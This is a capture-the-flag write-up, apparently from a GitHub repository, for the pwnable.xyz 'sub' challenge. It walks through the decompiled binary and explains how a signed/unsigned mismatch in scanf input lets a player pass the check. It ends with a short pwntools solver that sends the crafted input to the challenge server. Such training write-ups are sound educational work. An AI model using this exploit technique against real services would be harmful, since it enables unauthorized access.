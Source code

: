 # Sub

<img align="left" width="100" height="24" src="https://img.shields.io/badge/category-pwn-blueviolet"><br></br>

# Synopsis

2 negatives == 1 positive.

# Description

Do you know basic math?        

## Skills Required

- Basic math.

## Skills Learned

- Basic math.

# Enumeration

The program's interface: 

```console
sub git:master ❯ ./sub_xyz                                       
1337 input: 1337
1337
```

From the interface, we understand the the program takes 2 numbers. Let's head into the disassembly.

### Disassembly

Starting with `main()`:

```c
undefined8 FUN_00100850(void)

{
  long in_FS_OFFSET;
  int input_1;
  int input_2;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  input_1 = 0;
  input_2 = 0;
  __printf_chk(1,"1337 input: ");
  __isoc99_scanf("%u %u",&input_1,&input_2);
  if ((input_1 < 0x1337) && (input_2 < 0x1337)) {
    if (input_1 - input_2 == 0x1337) {
      system("cat /flag");
    }
  }
  else {
    puts("Sowwy");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The program is pretty straightforward and the bug is obvious. 

`  __isoc99_scanf("%u %u",&input_1,&input_2);`

The program asks for 2 unsigned integers, that means we can give a signed integer and the program will not treat it properly. Then, we need to make sure that our inputs are `< 0x1337` and when they are subtracted, they are equal to `0x1337`. 

The most obvious numbers are `0x1336` and `-1`. Both are less than `0x1337` and the program will do:

 `0x1336 - (-1) => 0x1336 + 1 == 0x1337`.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

LOCAL = False

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote('svc.pwnable.xyz', 30001)

r.sendlineafter('input: ', f'{0x1336} -1')
r.interactive()

```

```console
sub git:master ❯ python solver.py                                 
FLAG{REDACTED}$
```

